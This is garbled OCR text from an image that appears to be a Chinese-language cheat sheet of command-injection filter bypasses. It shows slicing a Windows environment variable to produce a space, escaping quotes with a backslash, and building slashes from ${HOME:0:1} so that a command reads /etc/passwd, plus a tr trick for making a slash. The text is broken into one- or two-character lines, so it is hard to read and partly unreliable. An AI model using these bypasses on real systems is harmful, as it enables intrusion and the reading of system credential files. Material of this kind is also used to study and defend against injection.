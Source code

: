 PROGRAMFILES  
:~  
10  
,  
-  
5  
%  
IP地址  
|利用  
%  
PROGRAMFILES  
:~  
10  
,  
-  
5  
%  
  
  
引号逃逸  
  
当而已命令背括在引号内时  
,可以用\转义引号逃逸  
  
  
不带反斜杠和斜杠的命令执行  
  
echo $  
{  
HOME  
:  
0  
:  
1  
}  
|$  
{  
HOME  
:  
0  
:  
1  
}代替  
/  
例如  
:cat
$  
{  
HOME  
:  
0  
:  
1  
}etc$  
{  
HOME  
:  
0  
:  
1  
}passwdecho  
.  
|tr   
'!-0''"-1'  